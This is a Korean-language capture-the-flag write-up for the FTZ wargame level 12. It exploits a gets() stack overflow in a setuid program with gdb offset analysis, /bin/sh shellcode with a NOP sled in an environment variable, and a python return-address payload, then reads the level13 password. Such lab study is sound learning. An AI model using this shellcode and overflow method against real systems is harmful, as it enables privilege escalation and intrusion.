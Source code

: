 # FTZ 12  
## 문제설명  
attackme 프로그램을 공격하자. attackme의 소스코드는 hint에 적혀있다. 소스코드는 아래와 같다.  
```
#include <stdoi.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	char str[256];

	setreuid( 3093, 3093);
	printf( "문장을 입력하세요.\n");
	gets(str);
	printf("%s\n", str);
}
```  

## 문제 풀이  
### 풀이과정  
1. ls -al을 해보자. attackme 프로그램에 level13 권한으로 setuid가 걸려있다. BOF 공격으로 attackme 파일에서 쉘을 열고 level13 권한으로 해당 레벨의 password를 알아내면 될 것 같다.  
2. hint 파일을 해석해보자.  
```
#include <stdoi.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
        char str[256];  # string 배열 256byte

        setreuid( 3093, 3093); # level13의 프로세스 ID, 이걸로 attackme의 uid가 level13이 되었다.
        printf( "문장을 입력하세요.\n");
        gets(str); # gets 함수로 사용자 입력을 str 변수에 담는다.
        printf("%s\n", str); # str 변수에 입력받은 내용 출력
}

```
3. 풀이는 다음과 같다.  
* str[256]의 시작점에서 main() ret까지의 거리를 구한다.  
* 환경변수에 쉘 코드를 등록하고 주소를 확인한다.  
* ret 위치의 데이터를 쉘 코드 주소로 변조시킬 페이로드를 작성한다.  
* 페이로드를 이용해 쉘 획득  

4. gdb를 이용해 main()과 ret 까지의 거리를 구해보자.  
그러기 위해 우선 ```cp attackme tmp/``` tmp에 attackme를 복사.   
모든 작업은 tmp에서 진행한다.  
```
gdb attackme
set disassembly-flavor intel // 우리에게 익숙한 intel 어셈블리로 바꾼다.
disas main // main을 디스어셈블한다.
```  
5. lea	eax, [ebp-264] : 이 부분을 통해 str 버퍼에서 ebp까지의 거리가 264라는 것을 알 수 있다.  
에 그렇지만 우리는 256byte의 배열을 선언했는걸?! => 나머지 8byte는 더미값!
그리고 ret 시작점은 264 + 4byte(ebp 크기) = 268byte 이다.  
즉, str[256] 시작점에서부터 main() ret까지 거리는 268byte

6. 환경변수에 등록할 쉘코드를 구글링(반드시 직접 짜보겠어...)을 통해 구하자.  
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```  

7. 쉘코드(25Byte, /bin/sh를 실행시키는 코드)를 환경변수에 등록하자.  
```
export SHELL=$(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")')
```  
> NOP Sled 기법을 이용하기 때문에 null(\90)은 충분히 많이 준다.  
> 환경변수는 OS가 필요한 정보를 메모리에 등록해놓고 필요할 때 마다 참조하는 영역을 의미한다. 일반 사용자 역시 환경 변수에 등록해서 사용이 가능하다.  
> 환경변수에 등록된 데이터는 고정적인 메모리 주소를 가지고 있게 된다. 그래서 우리가 필요한 쉘코드를 환경변수에 등록하고 이 환경 변수의 메모리 주소를 알아와서 ret에덮어씌우면, 환경변수에 등록한 쉘코드가 실행되어 변조가 가능하게 된다.  
>> export (환경변수명) = (사용자입력)  
>> 인터프리터를 실행하는 두 번째 방법: python -c command는 command에 있는 문장을 실행함. 셸의 -c 옵션에 해당. 파이썬 문장은 종종 셸에서 특별한 의미가 있는 공백이나 다른 문자들을 포함하기 때문에, command 전체를 작은따옴표로 감싸주는 것이 좋음.  

8. 환경변수에 등록된 쉘코드의 주소를 알아보기 위해 간단한 c언어 코드를 만들고 실행시키자.  
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
	char *env;

	env=getenv("SHELL");
	printf("address = %p\n",env);

	return 0;
}
```  
```
gcc -o getenv getenv.c  
./getenv
```  
컴파일 후 실행시키면 쉘코드의 주소가 나온다.  

9. 이제 페이로드를 작성해보자.  
```
(python -c 'print "\x90"*268 + "[쉘코드의 주소를 리틀엔디안으로]";cat) | ./attackme

// 리틀엔디안 예시
쉘코드 주소 = 0xbffffef6
페이로드 안의 쉘코드 주소 = \xf6\xfe\xff\xbf
```  

* 작성 예시  
```
아래의 n에는 적절한 byte 수를 계산하여 넣는다. 그로인해 ret지점에 정확히 환경변수 주소가 덮이게 해야한다.
즉 n = str~ret 거리

// strcpy
./실행파일 `python –c ‘print “A”*n+”쉘코드 주소”’`

얘는 strcpy에서 argv[1]를 copy하는거니까 실행파일 먼저 실행할때 인자로 넘겨줘야하고

// gets
(python -c 'print"\x90"*n+"쉘코드 주소"'; cat) | ./실행파일

얘는 실행파일을 실행하고 입력해줘야하기 때문!!!
쉘이 안꺼지게 세미콜론으로 또 하나의 명령을 줌
```  
> 익스플로잇: 대상의 취약점으로 대상의 시스템에 침투하는 행위. 즉, 취약점을 악용하는 방법 그 자체  
ex. bof, sql injection, 설정오류 등  
> 페이로드 : 대상의 취약점으로 대상 시스템에 익스플로잇 한 뒤, 수행하는 악의적 행위. 즉, 시스템에 실행시키고자 하는 코드  
ex. 리버스쉘(윈도우 cmd로 대상 시스템에서 공격자에게 역으로 접속을 시도하는 페이로드), 바인드쉘(대상 시스템의 응답 포트에 cmd를 바인드해 공격자가 접속할 수 있도록 유도하는 페이로드)  
> 쉘코드: 공격을 수행할 때 페이로드로 사용되는 명령 집합. 쉘코드는 보통 어셈블리어로 작성하는데, 연속된 명령을 대상 시스템에서 실행한 후 명령 쉘을 얻는다.  

10. 페이로드를 실행시키니 쉘이 성공적으로 떨어진다. 그리고 my-pass 명령어를 통해 level13의 패스워드를 얻는다.  
11. 패스워드는 "have no clue"
